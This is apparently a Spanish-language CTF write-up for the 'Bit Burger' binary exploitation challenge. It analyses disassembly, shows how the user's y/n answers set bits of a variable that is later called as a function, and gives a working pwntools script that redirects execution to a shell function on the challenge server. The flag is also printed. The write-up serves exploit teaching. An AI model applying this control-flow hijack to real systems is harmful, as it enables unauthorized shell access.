 # Bit Burger

![2025-03-25-105152_716x342_scrot](https://github.com/user-attachments/assets/bd2e464c-b5a5-4174-8500-5a83a2be5468)

Revisamos las propiedades del binario:

```
checksec --file=bit_burger.bin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   54 Symbols	  No	0		1		bit_burger.bin
```

El binario no tiene PIE

En la funcion take_order se crea un puntero a una variable de 8 bytes que solo se actualiza cuando el usuario introduce una 'y' para asignar el valor 1 al byte correspondiente:

![2025-03-24-144629_520x21_scrot](https://github.com/user-attachments/assets/9c5d341d-89f2-4b0c-8d48-eb735f46a248)

![2025-03-24-144649_881x178_scrot](https://github.com/user-attachments/assets/bad17475-8f6e-4ff5-9016-2c5e5e0989d4)

```
|     |:|   0x00401496      488b45f0       mov rax, qword [var_10h]   # Copia el contador a rax
|     |:|   0x0040149a      ba01000000     mov edx, 1                 # Copia 1 a edx
|     |:|   0x0040149f      89c1           mov ecx, eax               # Copia el contador a ecx
|     |:|   0x004014a1      d3e2           shl edx, cl                # Deplazamiento hacia la izquierda [contador] bytes
                                                                        para crear una mascara de bits
|     |:|   0x004014a3      89d0           mov eax, edx               # Copia la mascara a eax
|     |:|   0x004014a5      4898           cdqe                       # Extiende el vlaor de 32 bits en eax a un valor de 64 bits
|     |:|   0x004014a7      480945e8       or qword [var_18h], rax    # Realiza un OR con la mascara y los bits de la variable,
                                                                        cambiando a 1 el bit correspondiente
```

Luego de la funcion take_order se llama a choose_style, que toma una entrada de 7 bytes y si falla una comparacion intenta llamar a la variable var_18h

![2025-03-25-094648_879x78_scrot](https://github.com/user-attachments/assets/da572f6e-83a4-497f-bb9e-891fdc80e00e)

![2025-03-25-094805_632x23_scrot](https://github.com/user-attachments/assets/a13cf299-e59a-48e0-9e8b-d77f587b0acb)

![2025-03-24-144829_1350x217_scrot](https://github.com/user-attachments/assets/60b89936-6c10-4b61-82ed-68afac4b0aff)

En la funcion manager_control_panel hay un pequeño codigo que invoca una shell:

![2025-03-25-095459_933x174_scrot](https://github.com/user-attachments/assets/8256bf30-c38a-4969-9e52-f875bfe18023)

Resumen:
- Las direcciones de memoria en el binario no sobrepasan los 24 bits
- Las direcciones del binario no cambian (no PIE)
- Podemos controlar hasta los primeros 24 bits de una variable
- Podemos redirigir el flujo del programa a esa variable

``` python
from pwn import *
elf = context.binary = ELF('./bit_burger.bin')
context.log_level = "error"
io = remote("binex-bitburger.ctf.ritsec.club",32200)
#io = process("./bit_burger.bin")

number = 0x401346
for i in range(24):
    if (1 << i) & number == 0:
        io.sendlineafter(b"(y/n)?", b"n")
        print("0")
    else:
        io.sendlineafter(b"(y/n)?", b"y")
        print("1")

io.sendlineafter(b"grilled or fried?: ", b"hehe")
io.interactive()
```

![2025-03-23-211015_438x344_scrot](https://github.com/user-attachments/assets/29b02791-96f6-4e86-85cb-5844ae322086)

`RS{b1ts_4nd_byt3s_4r3_0n_the_m3nu}`


